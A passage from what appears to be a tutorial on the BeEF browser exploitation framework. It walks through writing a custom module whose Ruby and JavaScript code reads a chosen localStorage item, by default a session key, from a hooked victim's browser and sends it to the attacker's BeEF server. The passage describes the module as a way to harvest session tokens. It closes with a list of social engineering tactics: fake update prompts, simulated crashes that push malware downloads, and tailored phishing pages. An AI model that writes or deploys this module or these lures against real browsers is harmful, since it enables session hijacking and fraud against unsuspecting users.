 - Target specific vulnerabilities or scenarios
- Automate complex attack chains
- Integrate BeEF with other security tools and workflows

Let's walk through the process of creating a simple custom BeEF module:

**Example: Creating a Custom Information Gathering Module**

1. Create a new Ruby file in the BeEF modules directory:
   ```sh
   touch /path/to/beef/modules/custom/gather_local_storage.rb
   ```
2. Open the file and add the following code:
   ```ruby
   class Gather_local_storage < BeEF::Core::Command
     def self.options
       return [
         { 'name' => 'key', 'description' => 'LocalStorage key to retrieve', 'ui_label' => 'Key', 'value' => 'myapp_session' }
       ]
     end

     def post_execute
       content = {}
       content['local_storage_data'] = @datastore['local_storage_data']
       save content
     end
   end
   ```
3. Create the corresponding JavaScript file:
   ```sh
   touch /path/to/beef/modules/custom/gather_local_storage.js
   ```
4. Add the following JavaScript code:
   ```javascript
   beef.execute(function() {
     var key = '<%= @key %>';
     var data = localStorage.getItem(key);
     beef.net.send("<%= @command_url %>", <%= @command_id %>, "local_storage_data=" + data);
   });
   ```
5. Restart BeEF and your new module will be available in the command list for hooked browsers.

This custom module allows you to retrieve specific items from a target browser's LocalStorage, which could be useful for gathering sensitive information or session tokens.

## Advanced Topics in Browser Exploitation

### Client-Side Attacks and Social Engineering

While BeEF is primarily focused on technical exploits, it can also be used in conjunction with social engineering techniques to create more convincing and effective attacks. Some examples include:

- Creating fake update prompts or security warnings
- Simulating browser crashes to trick users into downloading malware
- Generating convincing phishing pages based on the target's browsing history
